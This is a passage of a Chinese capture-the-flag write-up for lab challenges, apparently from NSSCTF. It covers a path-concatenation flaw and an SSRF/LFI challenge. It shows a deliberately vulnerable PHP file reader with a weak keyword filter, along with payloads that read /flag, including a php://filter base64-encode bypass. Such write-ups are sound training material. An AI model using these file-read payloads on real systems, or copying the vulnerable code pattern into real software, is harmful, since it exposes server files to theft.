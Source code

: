 继续代码审计，虽然python还没有系统学习但是，知道这个地方是拼接，在网上找到了这里包含了漏洞

![](https://s2.loli.net/2022/05/15/6lzK9HQbUYfERSp.png)

只需要将res[0]为/flag就能实现此漏洞，将filename="/flag"

追踪重定向拿到flag

![](https://s2.loli.net/2022/05/15/k8TZ3nMzheiYV5N.png)



## easyssrf

拿到题目

![](https://nssctf.wdf.ink/img/xmj/image-20220519091008540.png)

直接试试flag

![](https://nssctf.wdf.ink/img/xmj/image-20220519091038836.png)

文件包含，用`file:///fl4g`读取文件

![](https://nssctf.wdf.ink/img/xmj/image-20220519091206269.png)

直接访问

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
  die("你败了.");
}

//flag in /flag
echo file_get_contents($file);
```

明显的LFI，直接明说了flag在`/flag`里，构造payload

```
file=php://filter/read=convert.base64-encode/resource=/flag
```



## is secret

## popchains

## middlerce

## hardsql

## join_us

## midlevel
